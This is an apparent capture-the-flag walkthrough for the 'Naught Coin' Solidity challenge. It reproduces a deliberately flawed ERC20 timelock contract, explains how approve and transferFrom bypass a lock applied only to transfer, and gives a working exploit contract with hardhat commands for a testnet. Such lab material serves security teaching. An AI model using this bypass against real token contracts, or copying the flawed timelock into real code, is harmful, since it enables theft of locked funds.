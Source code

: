 # Level 15: Naught Coin Challenge

## Challenge Description

This challenge involves an ERC20 token called NaughtCoin that has a timelock restricting token transfers. As a token holder, you're not supposed to be able to transfer your tokens until 10 years have passed. However, there's a vulnerability in the implementation. The goal is to transfer all tokens from the player account before the timelock expires.

## Contract Location

The challenge contract is located at:
```
/contracts/level-15-naught-coin/NaughtCoin.sol
```

## Understanding the Challenge

The `NaughtCoin` contract inherits from the OpenZeppelin ERC20 implementation and adds a timelock mechanism to prevent the player from transferring tokens for 10 years. Here's the contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

### Key Observations

1. The contract inherits from OpenZeppelin's ERC20 implementation.
2. It overrides the `transfer` function and adds a `lockTokens` modifier.
3. The `lockTokens` modifier prevents the player from transferring tokens until the timelock expires (10 years).
4. However, the contract only overrides the `transfer` function, but not other ERC20 functions that can move tokens.

## Winning Strategy

The vulnerability lies in the fact that the contract only restricts the `transfer` function but not other token movement functions from the ERC20 standard, such as `transferFrom`.

To exploit this:

1. First, approve a separate account or contract to spend tokens on your behalf using the `approve` function.
2. Then, use `transferFrom` to move the tokens from the player's account to another address.

Since the `transferFrom` function is inherited from the ERC20 implementation and isn't overridden with the timelock modifier, it can be used to bypass the timelock restriction entirely.

## Hint for Thinking

Ask yourself:
* What methods can move tokens in the ERC20 standard?
* Which of those methods are restricted by the timelock in this contract?
* How can you use the unrestricted methods to bypass the timelock?

## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

### Understanding the Vulnerability

The NaughtCoin contract only restricts the `transfer` function with the timelock. However, as an ERC20 token, it inherits several other functions from OpenZeppelin's implementation:

1. `transfer`: Directly transfers tokens from the caller to a recipient (restricted by timelock)
2. `transferFrom`: Transfers tokens from one address to another using an allowance mechanism (not restricted)
3. `approve`: Approves another address to spend tokens on behalf of the caller (not restricted)

Since only the `transfer` function is overridden with the timelock, we can use the combination of `approve` and `transferFrom` to move tokens without triggering the timelock.

### Exploit Contract

The solution involves creating a contract that uses `transferFrom` to move tokens from the player to the contract itself:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface INaughtCoin {
    function balanceOf(address account) external view returns (uint256);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function player() external view returns (address);
}

contract NaughtCoinExploit {
    address public naughtCoinAddress;
    INaughtCoin public naughtCoin;
    address public owner;

    constructor(address _naughtCoinAddress) {
        naughtCoinAddress = _naughtCoinAddress;
        naughtCoin = INaughtCoin(naughtCoinAddress);
        owner = msg.sender;
    }
    
    function bypassTimeLock() external {
        require(msg.sender == owner, "Only owner can bypass the timelock");
        
        address player = naughtCoin.player();
        uint256 playerBalance = naughtCoin.balanceOf(player);
        
        // Transfer all tokens from the player to the contract address
        naughtCoin.transferFrom(player, address(this), playerBalance);
    }
    
    function checkSuccess() external view returns (bool) {
        address player = naughtCoin.player();
        return naughtCoin.balanceOf(player) == 0;
    }
}
```

### Execution Steps

1. **Deploy the NaughtCoin Contract**

   ```shell
   npx hardhat deploy --tags naught-coin --network sepolia
   ```

2. **Deploy the Exploit Contract**

   ```shell
   TARGET_ADDRESS=0xYourNaughtCoinAddress npx hardhat deploy --tags naught-coin-solution --network sepolia
   ```

3. **Execute the Exploit**

   First, the player must approve the exploit contract to spend tokens, then the script will execute the exploit to transfer tokens to the contract itself:

   ```shell
   EXPLOIT_ADDRESS=0xYourExploitAddress TARGET_ADDRESS=0xNaughtCoinAddress npx hardhat run scripts/level-15-naught-coin/execute-naught-coin-exploit.ts --network sepolia
   ```

   The script will verify if the exploit was successful by checking if the player's balance is zero.

## Key Insights

1. **Incomplete Access Control**: The contract only restricts one function (`transfer`) but not the complete set of functions that can move tokens.

2. **ERC20 Standard Knowledge**: Understanding the ERC20 standard and its functions is crucial. The token can be moved not just with `transfer` but also with `transferFrom`.

3. **Inheritance Considerations**: When overriding functions from a parent contract, it's important to consider all functions that might perform similar operations.

4. **Defense in Depth**: For critical restrictions like timelocks, apply the restriction at multiple levels or consider using a more comprehensive approach such as overriding all token movement functions or using OpenZeppelin's TokenTimelock.
